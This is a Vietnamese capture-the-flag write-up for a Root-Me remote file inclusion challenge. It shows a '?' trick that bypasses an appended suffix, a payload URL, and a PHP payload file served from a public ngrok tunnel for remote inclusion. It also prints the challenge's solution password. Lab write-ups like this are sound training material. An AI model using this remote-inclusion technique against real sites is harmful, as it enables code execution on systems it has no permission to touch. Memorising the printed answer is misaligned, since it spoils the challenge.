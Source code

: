 # WRITE UP

**Challenge:** [Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)

Website có thiết lập parameter ?lang để đọc source từ lang.php:

<img src="./media/image1.png" style="width:6.5in;height:1.40556in" alt="Graphical user interface, text Description automatically generated" />

Fuzz vào URL thì ta biết được, server sẽ tự động concat thêm ‘\_lang.php’ vào cuối keyword ta gán vào ?lang:

<img src="./media/image2.png" style="width:6.5in;height:1.08681in" alt="Graphical user interface, text, application Description automatically generated" />

Challenge này thử thách về RFI, ta thử chèn một website bất kỳ vào ?lang:

<img src="./media/image3.png" style="width:6.5in;height:1.2in" alt="Graphical user interface, text Description automatically generated" />

Như ban nãy, server tự concat thêm ‘\_lang.php’, ta sử dụng **‘?’** để bypass phần concat với payload: http://challenge01.root-me.org/web-serveur/ch13/?lang=https://github.com/nh4ttruong?

<img src="./media/image4.png" style="width:6.5in;height:3.12083in" alt="A screenshot of a computer Description automatically generated" />

Bypass thành công, giờ thì ta sử dụng server để RFI qua challenge này. Set-up một file tên là ntruong.txt với content là payload PHP:

<img src="./media/image5.png" style="width:6.5in;height:0.67917in" />

Sử dụng ngrok server để public IP Address:

<img src="./media/image6.png" style="width:6.5in;height:3.32917in" alt="A screenshot of a computer Description automatically generated" />

-   URL để RFI: <https://f512-14-241-170-199.ap.ngrok.io/ntruong.txt>

<img src="./media/image7.png" style="width:6.5in;height:0.50694in" />

Giờ thì gắn vào ?lang ta được:

<img src="./media/image8.png" style="width:6.5in;height:3.57051in" alt="Graphical user interface, application, Word Description automatically generated" />

-   Password: R3m0t3\_iS\_r3aL1y\_3v1l

<img src="./media/image9.png" style="width:6.5in;height:3.4359in" alt="A screenshot of a computer Description automatically generated" />

- Flag: "****************************"
